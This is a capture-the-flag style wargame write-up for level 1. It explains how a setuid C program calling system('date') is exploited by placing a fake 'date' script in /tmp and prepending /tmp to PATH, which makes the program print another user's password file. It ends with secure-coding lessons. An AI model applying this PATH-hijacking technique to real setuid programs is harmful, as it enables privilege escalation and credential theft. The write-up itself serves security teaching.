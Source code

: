 ## Level 1: avoid the "system" call in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" says:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

All levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable program and its source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  and the same message is also in the `motd.txt` file of the user.

- The explanation of the level always contains some hint as to how you can beat the challange, so it's good to read carefully.

OK, let's get started!

Taking the hint from the message after login,
let's look at the files in the `/levels/level01` directory:

    level00@box:~$ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Anything unusual here?
The user permission of the file `level01` looks pretty unusual: `rws`.
What's that?

Normally the 3rd letter in the permission bits is either `x` or `-`,
indicating whether the file is executable or not.
Here we have `s`,
which indicates the *setuid* bit is set.
Normal programs are executed as the current user.
In contrast,
programs with the setuid bit set are executed as the owner of the file.
So,
even though we are logged in as user `level00` now,
when we execute this program it will run as `level01`,
and enjoy the same access privileges as that user,
instead of `level00`.
Maybe this can be useful for something.

Let's run it and see what it does:
```
level00@box:~$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

Ok that's not very interesting.
It looks like it just prints the date, that's it.

The relevant part of the source code seems to be this:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Notice that instead of using a native C function to get the date,
the program uses the `system` function to run the `date` command.
We can look up what `system` does exactly with `man system`:
it executes the specified command by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
it takes the list of directories defined in the `$PATH` variable,
and checks if an executable file with the same name exists or not,
and runs the first match it finds.

Therein lies our exploit:

1. Create a script named "date",
   and make it print the content of `/home/level01/.password`:

        level00@box:~$ cat >/tmp/date
        #!/bin/cat /home/level01/.password
        ^D  # press Control-D to stop editing

2. Make it executable

        $ chmod +x /tmp/date

3. Prepend the directory of the script to `PATH`,
   so that our script is found before the real `date` program.

        $ PATH=/tmp:$PATH

Now if we run the `level01` command again:
```
$ /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as user `level01` using the revealed password.

### Lessons to learn

- Read well the documentation and understand the libraries and methods you use:
  `man system` well explains that it should not be used in setuid programs.

- If you must use `system()`,
  do not use relative paths,
  as the program can be easily subverted by manipulating the `$PATH` variable.

